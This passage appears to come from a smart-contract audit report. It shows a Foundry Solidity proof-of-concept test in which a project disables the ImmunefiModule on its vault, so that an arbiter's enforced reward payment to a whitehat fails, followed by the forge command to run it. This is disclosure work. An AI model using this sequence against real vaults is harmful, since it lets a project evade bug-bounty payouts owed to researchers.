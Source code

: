 ```sol

        bytes memory disableImmunefiModuleSignature = _signData(vaultSignerPk, disableImmunefiModuleHashData);

        // 2. Malicious project disables the ImmunefiModule since ImmunefiGuard allows **any** transaction on the vault.
        vault.execTransaction(
            address(vault),
            0,
            abi.encodeCall(vault.disableModule, (address(0x1), address(immunefiModule))),
            Enum.Operation.Call,
            0,
            0,
            0,
            address(0),
            payable(0),
            disableImmunefiModuleSignature
        );

        // 3. Critical issue gets fixed/resolved and protocol owner deactivates emergency shutdown.
        vm.prank(protocolOwner);
        emergencySystem.deactivateEmergencyShutdown();

        // 4. Whitehat approves spending the fee amount for an arbitration.
        vm.startPrank(whitehat);
        token.approve(address(arbitration), arbitration.feeAmount());
        vm.stopPrank();

        // 5. Whitehat signs request for arbitration
        bytes memory signature = _signData(
            whitehatPk,
            arbitration.encodeRequestArbFromWhitehatData(referenceId, address(vault))
        );

        // 6. Whitehat requests arbitration and pays the fee.
        vm.prank(whitehat);
        arbitration.requestArbWhitehat(referenceId, address(vault), whitehat, signature);

        vm.deal(address(vault), 110 ether);
        bytes32 arbitrationId = arbitration.computeArbitrationId(referenceId, address(vault), whitehat);

        // 7. Arbiter enforces sending reward to the whitehat.
        //    The txn fails since the malicious project has disabled ImmunefiModule which results in GS104 error.
        vm.startPrank(arbiter);
        arbitration.enforceSendRewardWhitehat(
            arbitrationId,
            new Rewards.ERC20Reward[](0),
            100 ether,
            vaultDelegate.UNTRUSTED_TARGET_GAS_CAP(),
            true
        );
        vm.stopPrank();
    }
```

Run the PoC via:

```sh
forge test --mt "testMaliciousProjectCanCauseSendRewardToFailAfterEmergencyShutdown" -vvvvv
```